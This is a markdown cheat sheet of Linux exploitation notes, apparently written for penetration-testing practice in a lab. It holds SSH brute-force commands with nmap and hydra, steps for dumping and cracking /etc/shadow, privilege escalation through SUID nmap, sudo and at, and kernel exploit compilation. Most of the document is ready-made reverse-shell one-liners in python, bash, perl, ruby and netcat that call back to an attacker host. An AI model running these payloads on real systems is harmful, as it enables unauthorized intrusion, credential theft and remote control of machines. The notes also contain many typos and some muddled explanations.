



#Linux Exploitation
```bash
nmap 2.0.0.22 target 1(metasploit)
```
- target 1 - port 22 ssh open

Lets try brutforce login
```bash
nmap 2.0.0.22 -p 22 --script ssh-brute
```
- After sucessfull passowrd cracking login with the crdentials
```bash
ssh administrator@2.0.0.22
whoami
id if uid=1001 - secondory regular user so 1000 is regular user
cat /etc/password - you can find the other users
```

Horizontal escalation
-------------------------------
since we know the user name lets try the password attack
```bash
hydra -l marlinspike -P /usr/share/wordlists/john/lst 2.0.0.22 ssh -e nsr -t 4
```

- anothe way to know the password is
```bash
cat /etc/shadow - contails passowrd hashes
```
- copy the hashes in a file in kali and try john
```bash
nano hash.txt
john hash.txt
# for the already cracked hashes
john --show hash.txt
```
check weather the /etc/password and /etc/shadow are having write permissions

-To find the suid files
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
```
- if the linux machine is having **nmap** installed in suid file then we can use it to escalate the privileges
```bash
nmap --interactive
nmap> ! cat /etc/shadow
nmap> ! cat /etc/passwd
nmap> ! nc <kali IP> 1234 -e /bin/bash

```
- In kali machine run a netcat listener

```bash
nc -lvp 1234    
```
- GTFOBINS is helpful to find the suid files and how to use them to escalate the privileges
Gtfobins link: https://gtfobins.github.io/

- if there is any error while connecting try this 
```bash
kali-tweaks
```
- This box will opens now select **Hardining** then enable **SSH CLIENT** then click on **Apply**  button 





- if you are able to see the ALL in the **sudo -l** then you can run any command with sudo

```bash
sudo -l
```
- if you are able to see the ALL in the **sudo -i** 

```bash
sudo -i
```
```bash
sudo -i
```
- if you see the **at**  try this

```bash
COMMAND="id > hi.txt"
echo "$COMMAND" | at now
cat hi.txt

COMMAND="cat /etc/shadow > hi.txt"
echo "$COMMAND" | at now
cat hi.txt

or you can try bellow command

echo "whoami > hi.txt" | at now
cat hi.txt
```
## Kernel Vulnerabilities and Application Vulnerabilities

- To list all the packages installed in the linux machine

```bash
apt list --installed
dpkg --list
dpkg -l
dpkg -l | grep -v '^ii  lib'
apt list --installed | grep -v '^lib'
ls /usr/share/applications/
```
- If you don't have proper shell then try this command if it having python or bash or sh

```bash
python -c 'import pty; pty.spawn("/bin/bash");'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' - **For Reverse Shell**
python3 -c 'import pty; pty.spawn("/bin/bash");'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);' - **For Reverse Shell**
sh -i
bash -i
bash -i >& /dev/tcp/<kali IP>/1234 0>&1 - **For Reverse Shell**
sh -i >& /dev/tcp/<kali IP>/1234 0>&1 - **For Reverse Shell**
perl -e 'exec "/bin/bash";'
perl -e 'use Socket;$i="<attacker_ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' - **For Reverse Shell**
ruby -e 'exec "/bin/bash"'
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<attacker_ip>",<port>);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' - **For Reverse Shell**
```
-  **where is <anything you want>** will help you to find the location of the file or command in the linux machine
```bash
whereis <anything you want>
```
- If you want to share a file from kali to linux or any other manchine(windows/linux) then you can start **python Http Server**
```bash
python3 -m http.server 80
```
- If you want to download a file from the kali linux to any other machine then you can use **wget** or **curl**
```bash
wget <http://<kali linux IP>/file_name>
curl <http://<kali linux IP>/file_name> -o <file_name>
```

- If you see **Screen-4.5.0** installed in the linux machine then try to search in google or in metasploitable for vulnerabilities or exploits
available for that version
- if you found any exploit available for screen-4.5.0 then you can use that to escalate the privileges
```bash
searchsploit Screen-4.5.0
```
- copy the exploit to the target machine and then give the permissions to execute
```bash
chmod +x <file_name>
./<file_name>
``` 
## For Kernel Vulnerabilities

- Use **uname -a** to see the kernel version. then you can search in google or in metasploit for the kernel version vulnerabilities.
```bash
uname -a
searchsploit <kernel_version>
```
- if you use exploits from searchsploit like 5092.c then you need to compile it first then transfer it to the target machine and then execute it
```bash
gcc 5092.c -o 5092
./5092
```
- Note: if it asks for the new line need to be added for the file when you compile it then you can use the following command
```bash
gcc 5092.c -o 5092 -fno-stack-protector
# or
gcc 5092.c -o 5092 -fno-stack-protector -z execstack  
# or
echo -e "\n" >> 5092.c 
wc -l 5092.c
gcc 5092.c -o 5092 -fno-stack-protector
# or
echo -e "\n" | cat - 5092.c > 5092_fixed.c
wc -l 5092_fixed.c
tail -n +2 5092.c > 5092_fixed.c
gcc 5092_fixed.c -o 5092_fixed -fno-stack-protector
```

## Automation Tools for Enumeration
- **LinPEAS**: A script that automates the process of privilege escalation enumeration on Linux systems.
```bash
git clone https://github.com/carlospolop/PEAS.git
cd PEAS
chmod +x linpeas.sh
./linpeas.sh
# or you can use the following command to run it
./linpeas.sh | tee linpeas_output.txt
# or you can use the following command to run it in the background
./linpeas.sh > linpeas_output.txt 2>&1 &
```
- **LinEnum**: A script that automates the process of privilege escalation enumeration on Linux systems.
```bash
git clone https://github.com/rebootuser/LinEnum.git
cd LinEnum
chmod +x linenum.sh
./linenum.sh
# or you can use the following command to run it
./linenum.sh | tee linenum_output.txt
# or you can use the following command to run it in the background
./linenum.sh > linenum_output.txt 2>&1 &
```